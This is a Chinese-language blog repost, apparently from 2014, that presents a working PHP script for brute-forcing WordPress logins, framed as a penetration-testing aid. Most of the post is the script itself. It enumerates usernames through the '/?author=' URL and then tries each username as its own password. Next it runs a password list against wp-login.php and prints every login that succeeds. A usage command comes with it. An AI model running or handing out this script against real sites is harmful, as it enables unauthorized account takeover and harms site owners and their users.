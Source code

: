 ```yaml
---
title: 跑wordpress用户密码脚本
id: 313748
categories:
  - 转载
date: 2014-03-10 06:10:15
tags:
---
```


在做渗透测试的时候，有时候会遇到一个wordpress博客，如果版本比较新，插件也没有漏洞的话，可以爆破用户名密码来尝试下。

大脑混沌情况下写的，有bug欢迎提出，由于是php的所以跑起来比较慢，下次发包还是调用命令结合hydra来爆破。

原理是通过URL /?author= 遍历获取用户名，然后先跑用户名与密码相同的用户，再调用同目录下pass.txt中的密码文件进行爆破。

默认获取前10个用户，可自行修改。

使用方法：
<pre>php wordpress.php http://www.test.com</pre>

<pre class="lang:php decode:true " >&lt;?php

set_time_limit(0); 
$domain = $argv[1];

//获取用户名
for ($i=1; $i &lt;= 10; $i++) {

    $url = $domain."/?author=".$i;
    $response = httprequest($url,0);
    if ($response == 404) {
        continue;
    }
    $pattern = "/author\/(.*)\/feed/";
    preg_match($pattern, $response, $name);
    $namearray[] = $name[1];
}

echo "共获取用户".count($namearray)."名用户\n";

echo "正在破解用户名与密码相同的用户：\n";

$crackname = crackpassword($namearray,"same");

$passwords = file("pass.txt");

echo "正在破解弱口令用户：\n";

if ($crackname) {
    $namearray = array_diff($namearray,$crackname);
}

crackpassword($namearray,$passwords);

function crackpassword($namearray,$passwords){
    global $domain;
    $crackname = "";
    foreach ($namearray as $name) {
        $url = $domain."/wp-login.php";
        if ($passwords == "same") {
            $post = "log=".urlencode($name)."&amp;pwd=".urlencode($name)."&amp;wp-submit=%E7%99%BB%E5%BD%95&amp;redirect_to=".urlencode($domain)."%2Fwp-admin%2F&amp;testcookie=1";
            $pos = strpos(httprequest($url,$post),'div id="login_error"');
            if ($pos === false) {
                echo "$name $name"."\n";
                $crackname[] = $name;
            }
        }else{
            foreach ($passwords as $pass) {
                $post = "log=".urlencode($name)."&amp;pwd=".urlencode($pass)."&amp;wp-submit=%E7%99%BB%E5%BD%95&amp;redirect_to=".urlencode($domain)."%2Fwp-admin%2F&amp;testcookie=1";
                $pos = strpos(httprequest($url,$post),'div id="login_error"');
                if ($pos === false) {
                    echo "$name $pass"."\n";
                }
            }
        }
    }
    return $crackname;
}

function httprequest($url,$post){
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_URL, "$url"); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);

    if($post){
        curl_setopt($ch, CURLOPT_POST, 1);//post提交方式
        curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
    }

    $output = curl_exec($ch); 
    $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
    curl_close($ch);

    if ($httpcode == 404) {
        return 404;
    }else{
        return $output;
    }
}
?&gt;</pre> 

原文：http://drops.wooyun.org/tools/601